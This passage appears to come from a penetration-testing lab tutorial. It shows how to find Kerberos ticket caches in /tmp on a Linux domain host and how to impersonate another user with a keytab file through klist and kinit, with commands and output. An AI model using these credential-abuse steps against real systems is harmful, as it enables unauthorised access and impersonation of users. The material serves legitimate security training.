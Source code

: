 #### Searching for ccache files in /tmp
```shell
david@inlanefreight.htb@linux01:~$ ls -la /tmp

total 68
drwxrwxrwt 13 root                     root                           4096 Oct  6 16:38 .
drwxr-xr-x 20 root                     root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab files
As attackers, we may have several uses for a keytab file. The first thing we can do is impersonate a user using `kinit`. To use a keytab file, we need to know which user it was created for. `klist` is another application used to interact with Kerberos on Linux. This application reads information from a `keytab` file. Let's see that with the following command:

#### Listing KeyTab file information
```shell-session
david@inlanefreight.htb@linux01:~$ klist -k -t /opt/specialfiles/carlos.keytab 

Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- -----------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

The ticket corresponds to the user Carlos. We can now impersonate the user with `kinit`. Let's confirm which ticket we are using with `klist` and then import Carlos's ticket into our session with `kinit`.

**Note:** **kinit** is case-sensitive, so be sure to use the name of the principal as shown in klist. In this case, the username is lowercase, and the domain name is uppercase.
#### Impersonating a user with a KeyTab
```shell
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
